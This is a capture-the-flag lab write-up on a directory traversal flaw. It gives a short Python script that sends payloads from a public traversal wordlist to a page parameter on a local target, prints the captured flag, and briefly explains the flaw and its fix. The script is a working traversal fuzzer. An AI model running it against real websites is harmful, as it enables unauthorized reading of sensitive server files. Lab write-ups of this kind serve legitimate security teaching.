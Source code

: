 # Directory traversal

### Breach description

We accessed sensitive directories that are supposed to be out of reach for the user. The exploit is based on using “../” to get to parent directories.

```python
import requests

# Target URL
base_url = "http://192.168.64.6/?page="

# Function to test directory traversal
def test_directory_traversal(payload):
    url = base_url + payload
    response = requests.get(url)
    # Check if response contains any indication of successful traversal
    if "flag" in response.text:
        print(f"Possible directory traversal found: {payload}")
        print(url)

# Load common directory traversal payloads from file
with open("traversal_common.txt", "r") as file:
    payloads = file.read().splitlines()

# Iterate through payloads and test directory traversal
for payload in payloads:
    test_directory_traversal(payload)
```

[List](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt) used in traversal_common.txt file.

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

### Explanation of the breach

Access to out of scope directories of the web app because the authorization policy has not been implemented properly or not at all.

The script above traverses common directories that are know for holding sensitive information.

### Breach Fix

Enforce appropriate permissions on directories and files.out of the web root.

Process the URI requests.

[https://github.com/maverickNerd/wordlists/blob/master/fuzz/linux_lfi.txt](https://github.com/maverickNerd/wordlists/blob/master/fuzz/linux_lfi.txt)